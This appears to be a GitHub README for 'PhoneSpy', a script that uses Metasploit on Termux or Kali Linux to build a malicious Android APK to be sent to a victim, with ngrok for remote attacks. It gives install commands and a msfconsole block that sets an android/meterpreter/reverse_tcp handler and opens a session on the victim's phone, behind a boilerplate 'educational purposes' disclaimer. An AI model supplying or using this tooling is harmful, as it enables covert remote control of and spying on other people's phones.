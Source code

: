 # PhoneSpy
PhoneSpy is a Simple Android Payload Generator Only For Termux Users.

# How it works?
<p>PhoneSpy grab metasploit from termux then execute it to build an APK PAYLOAD. You just need to send this payload to victim. It will auto start MSFCONSOLE listener. For WAN (Wide Area Network) attack, You need to put ngrok info while you creating payload. </p>

# Legal disclaimer:
<p>Usage of PhoneSpy for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.</p>

## This Tool Tested On :
<ul>
  <li>Kali Linux</li>
  <li>Termux</li>
  <li>Perrot Sec OS</li>
</ul>

# Installing and requirements
<p>This tool requires METASPLOIT for creating PAYLOAD and Ngrok for WAN attack. 

## Installing (Kali Linux):

```
apt-get update

git clone https://github.com/TechBite-BD/PhoneSpy.git

cd PhoneSpy

chmod +x install.sh

bash install.sh
```


## Installing (Termux):

```
pkg update

pkg install git

git clone https://github.com/TechBite-BD/PhoneSpy.git

cd PhoneSpy

chmod +x install.sh

bash install.sh
```
Note: Use Mobile Data For Ngrok Link

##2nd Command 
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST
set LPORT
exploit -j
sessions -i 1

## Give me the credits if you copy ANY part from this code. Don't be NOOB!!
